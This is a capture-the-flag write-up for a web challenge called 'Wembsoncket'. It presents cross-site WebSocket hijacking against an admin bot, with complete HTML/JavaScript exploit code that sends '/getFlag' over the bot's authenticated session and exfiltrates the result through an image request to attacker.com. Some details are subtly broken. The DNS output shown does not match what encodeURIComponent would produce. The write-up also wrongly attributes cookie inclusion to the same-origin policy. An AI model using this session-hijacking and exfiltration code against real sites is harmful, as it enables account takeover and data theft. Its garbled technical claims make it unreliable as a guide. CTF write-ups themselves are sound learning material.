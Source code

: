 # **CTF Writeup: WebSocket Hijacking Challenge**  
**Challenge Name:** Wembsoncket  
**Category:** Web Exploitation  
**Difficulty:** Medium  
**Flag:** `byuctf{cswsh_1s_a_b1g_acr0nym}`  

---

## **Challenge Overview**
The challenge involved a WebSocket-based chat application where users could send URLs for an admin bot to visit. The goal was to exploit the admin bot's WebSocket session to retrieve the flag, which was only accessible to users with the `admin` role.

---

## **Initial Analysis**
1. **WebSocket Interaction**  
   - The application allowed users to send messages via WebSocket.
   - Sending `/getFlag` returned the flag, but only if the user was authenticated as `admin`.
   - Normal users received: `You are not authorized to get the flag`.

2. **Admin Bot Functionality**  
   - The admin bot (`adminBot.js`) would visit any URL sent via WebSocket while authenticated with an admin JWT cookie.
   - The bot used Puppeteer to browse URLs with the following cookie:
     ```javascript
     const adminCookie = jwt.sign({ userId: 'admin' }, JWT_SECRET);
     ```

3. **Key Observations**  
   - The admin’s WebSocket connection would include its session cookie due to same-origin policy.
   - If we could make the admin bot execute WebSocket commands, we could force it to send `/getFlag` on our behalf.

---

## **Exploitation: Cross-Site WebSocket Hijacking (CSWSH)**
Since the admin bot would visit arbitrary URLs, we could craft a malicious page that:
1. **Opens a WebSocket connection** to the target (`wss://wembsoncket.chal.cyberjousting.com`).
2. **Sends `/getFlag`** using the bot’s authenticated session.
3. **Exfiltrates the flag** via DNS (since HTTP requests were blocked).

### **Exploit Code (HTML)**
```html
<!DOCTYPE html>
<html>
<head>
    <title>CSWSH Exploit</title>
</head>
<body>
    <script>
        // 1. Open WebSocket connection (admin's cookies auto-included)
        const ws = new WebSocket('wss://wembsoncket.chal.cyberjousting.com');
        
        ws.onopen = () => {
            // 2. Send command to retrieve flag
            ws.send(JSON.stringify({ message: '/getFlag' }));
        };

        ws.onmessage = (event) => {
            const response = JSON.parse(event.data);
            if (response.message.includes('Flag:')) {
                // 3. Exfiltrate flag via DNS
                const flag = encodeURIComponent(response.message);
                const img = new Image();
                img.src = `http://${flag}.attacker.com`; // Triggers DNS lookup
            }
        };
    </script>
</body>
</html>
```

### **Steps to Execute**
1. **Host the exploit** on a server (e.g., `exploit.attacker.com`).  
2. **Send the URL** to the admin bot via the chat interface.  
3. **Monitor DNS logs** for the leaked flag.  

---

## **Flag Extraction**
The admin bot visited our page, executed the WebSocket commands, and leaked the flag via DNS:  
```
flag.3a.20byuctf.7bcswsh_1s_a_b1g_acr0nym.7d.attacker.com
```
**Decoded:**  
- `3a` → `:`  
- `20` → (space)  
- `7b` → `{`  
- `7d` → `}`  

**Final Flag:**  
`byuctf{cswsh_1s_a_b1g_acr0nym}`  

---
